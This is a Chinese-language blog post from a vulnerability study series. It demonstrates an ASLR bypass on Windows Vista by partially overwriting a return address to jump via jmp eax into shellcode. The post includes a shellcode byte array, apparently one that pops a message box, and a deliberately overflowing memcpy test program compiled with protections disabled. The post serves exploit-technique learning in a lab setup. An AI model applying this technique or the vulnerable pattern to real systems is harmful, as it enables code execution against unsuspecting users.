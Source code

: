 ```yaml
---
title: 漏洞学习笔记-018-利用部分覆盖定位
author: Misaka
date: 2020-11-26 17:54:00 +0800
categories: [Exploit]
tags: [Windows, Exploit]
math: true
---
```


利用部分覆盖定位shellcode

本文来源：[Moeomu的博客](/posts/漏洞学习笔记-018-利用部分覆盖定位/)

## 原理

- 映像随机化指示对映像加载基址的全两个字节随机化处理，这样做的后果是跳板始终可用，因此可以利用这一点去绕过ASLR
- 如果攻击memcpy的话，可以将返回值控制在`0xXXXX0000`~`0xXXXXFFFF`之间，而攻击str类函数攻击，可以将控制地址为`0xXXXX0100`~`0xXXXX00FF`之间的一个

## 过程

- 首先在编译完的程序内找到一条jmp eax的汇编码，随后将它的地址的低word作为`off by word`的地址，填入shellcode
- 计算好缓冲区大小，溢出后即可正常

## 代码

```cpp
#include <memory.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x2A\x23" // off by word
;

char* test()
{
	char tt[256];
	memcpy(tt, shellcode, 262);
	return tt;
}

int main()
{
	char temp[200];
	test();
	return 0;
}
```

## 开始实验

> 实验环境：系统：Windows Vista SP0，系统DEP状态：Optin默认，编译器：Visual Studio 2008，优化：禁用优化，GS选项：关闭，DEP选项：/NXCOMPAT:NO，build版本：release

- 编译程序，运行，直接弹出窗口并成功，重启也一样，如图

![成功](https://s3.ax1x.com/2020/11/28/Dyps2t.png)
